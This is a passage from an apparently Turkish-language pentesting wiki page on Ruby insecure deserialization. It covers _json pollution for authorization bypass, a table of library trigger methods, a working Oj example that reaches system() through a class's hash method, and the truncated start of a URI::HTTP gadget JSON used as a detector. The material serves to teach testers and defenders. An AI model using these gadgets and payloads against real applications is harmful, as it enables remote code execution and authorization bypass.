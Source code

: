 Nasıl mümkün olabileceğini görmek için [pollute a Ruby class and abuse it in here](ruby-class-pollution.md) sayfasını inceleyin.

### Ruby _json pollution

Bir body içinde array gibi hash'lenebilir olmayan bazı değerler gönderildiğinde, bunlar `_json` adında yeni bir anahtara eklenir. Ancak, bir saldırgan body içinde istediği rastgele değerleri içeren `_json` adlı bir değer de ayarlayabilir. Ardından, örneğin backend bir parametrenin doğruluğunu kontrol edip daha sonra `_json` parametresini bir işlem yapmak için kullanıyorsa, bir authorisation bypass gerçekleştirilebilir.

Daha fazla bilgi için [Ruby _json pollution page](ruby-_json-pollution.md) sayfasına bakın.

### Diğer kütüphaneler

Bu teknik [ **from this blog post**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm_source=pocket_shared) alınmıştır.

Nesneleri serialize etmek için kullanılabilen ve bu nedenle insecure deserialization sırasında RCE elde etmek için istismar edilebilecek başka Ruby kütüphaneleri de vardır. Aşağıdaki tablo, bu kütüphanelerden bazılarını ve nesne unserialize edildiğinde çağrılan library içindeki metodu gösterir (temelde RCE elde etmek için istismar edilecek fonksiyon):

<table data-header-hidden><thead><tr><th width="179"></th><th width="146"></th><th></th></tr></thead><tbody><tr><td><strong>Kütüphane</strong></td><td><strong>Girdi</strong></td><td><strong>Sınıf içindeki tetikleyici metod</strong></td></tr><tr><td>Marshal (Ruby)</td><td>İkili</td><td><code>_load</code></td></tr><tr><td>Oj</td><td>JSON</td><td><code>hash</code> (sınıf anahtar olarak hash(map) içine konulmalıdır)</td></tr><tr><td>Ox</td><td>XML</td><td><code>hash</code> (sınıf anahtar olarak hash(map) içine konulmalıdır)</td></tr><tr><td>Psych (Ruby)</td><td>YAML</td><td><code>hash</code> (sınıf anahtar olarak hash(map) içine konulmalıdır)<br><code>init_with</code></td></tr><tr><td>JSON (Ruby)</td><td>JSON</td><td><code>json_create</code> ([see notes regarding json_create at end](#table-vulnerable-sinks))</td></tr></tbody></table>

Basic example:
```ruby
# Existing Ruby class inside the code of the app
class SimpleClass
def initialize(cmd)
@cmd = cmd
end

def hash
system(@cmd)
end
end

# Exploit
require 'oj'
simple = SimpleClass.new("open -a calculator") # command for macOS
json_payload = Oj.dump(simple)
puts json_payload

# Sink vulnerable inside the code accepting user input as json_payload
Oj.load(json_payload)
```
Oj'yi kötüye kullanmaya çalışırken, içinde `hash` fonksiyonunun `to_s`'i çağıracağı, bunun da spec'i, onun da fetch_path'i çağıracağı bir gadget class bulmak mümkündü; fetch_path'i rastgele bir URL'yi getirecek şekilde yaptırmak mümkün olduğu için bu, bu tür unsanitized deserialization vulnerabilities için harika bir detector sağlıyordu.
```json
{
"^o": "URI::HTTP",
"scheme": "s3",
"host": "example.org/anyurl?",
"port": "anyport",
```